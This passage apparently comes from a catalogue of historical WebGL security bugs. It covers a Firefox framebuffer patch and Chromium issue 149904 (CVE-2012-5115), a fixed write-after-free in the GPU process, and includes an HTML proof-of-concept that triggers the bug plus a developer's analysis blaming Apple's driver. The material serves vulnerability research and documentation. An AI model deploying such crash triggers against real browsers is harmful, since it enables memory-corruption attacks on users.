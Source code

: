 ### Patch

```diff
WebGLFramebuffer::Delete()
{
+ DetachAllAttachments();
...
}
```

[Full diff](https://bugzilla.mozilla.org/attachment.cgi?id=8445075&action=diff)



## Write-after-Free in CommandBuffer (Issue 149904, 2012, Fixed)

[Issue 149904](https://bugs.chromium.org/p/chromium/issues/detail?id=149904), [CVE-2012-5115](https://nvd.nist.gov/vuln/detail/CVE-2012-5115),

> when the gpu process runs out of memory, a webgl buffer is destroyed.
> calling gl.bufferSubData(gl.ARRAY_BUFFER, 0x1234567, lolBuf) will still attempt to write to the buffer.

### Cannot reproduce (depends on close source driver).

Test case,

```html
<html>
  <head>
    <script>
      gl=document.createElement('canvas').getContext('experimental-webgl')
      var mediumNumber = Math.pow(2,29)
      var lolBuf = new Uint8Array(0x10000000)
      gl.bindBuffer(gl.ARRAY_BUFFER, gl.createBuffer())
      gl.bufferData(gl.ARRAY_BUFFER, lolBuf, gl.STATIC_DRAW)
      gl.bufferData(gl.ARRAY_BUFFER, mediumNumber, gl.STATIC_DRAW)
      gl.bindBuffer(gl.ARRAY_BUFFER, gl.createBuffer())
      gl.bufferData(gl.ARRAY_BUFFER, lolBuf, gl.STATIC_DRAW)
      gl.bufferData(gl.ARRAY_BUFFER, mediumNumber, gl.STATIC_DRAW)
      gl.bufferSubData(gl.ARRAY_BUFFER, 0x1234567, lolBuf)
    </script>
  </head>
</html>
```

### Analysis

kbr@chromium.org,

>The bug is in Apple's OpenGL driver. The first call to glBufferData allocates a GPU buffer of a certain size. One of the subsequent calls to glBufferData is causing a GL_OUT_OF_MEMORY error. Under this condition the buffer's data store has been deleted. The subsequent call to glBufferSubData should therefore generate a GL_INVALID_VALUE error, but doesn't, due to insufficient error checking in the driver.
